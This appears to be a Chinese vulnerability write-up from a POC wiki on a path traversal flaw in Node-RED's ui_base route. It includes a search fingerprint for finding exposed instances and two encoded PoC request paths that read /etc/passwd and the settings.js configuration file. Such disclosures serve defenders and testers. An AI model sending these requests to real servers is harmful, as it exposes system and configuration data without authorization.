 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/KRGKXAJQawXl88RBPTaAeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**Node-RED 在 / nodes/ui_base.js 中，URL 与'/ui_base/js/*'匹配，然后传递给 path.join，**

**缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如 settings.js**

**二:  漏洞影响🐇**

**Node-RED**

**三:  漏洞复现🐋**

```
title="Node-RED"
```

**访问页面**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5kxZqyibOA7xly9dGKI4qqgOzEdjllwL5icXYibdxiaFmJ6TVEAhYKbn6gjAWzMP0DwlGmlficLahR3oQ/640?wx_fmt=png)

**验证 POC**

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5kxZqyibOA7xly9dGKI4qqgDpYAGnKibeNAtCOINlUKzicKv0TNpqAFuWwuTS1xApCsfyT8PDiaib45ibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5kxZqyibOA7xly9dGKI4qqgqYoicONVMHNNop4DKQzek3efr9GjnbicauIAZsJsqHvQCaVE7Xa1vVsw/640?wx_fmt=png)

 ****四: 关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**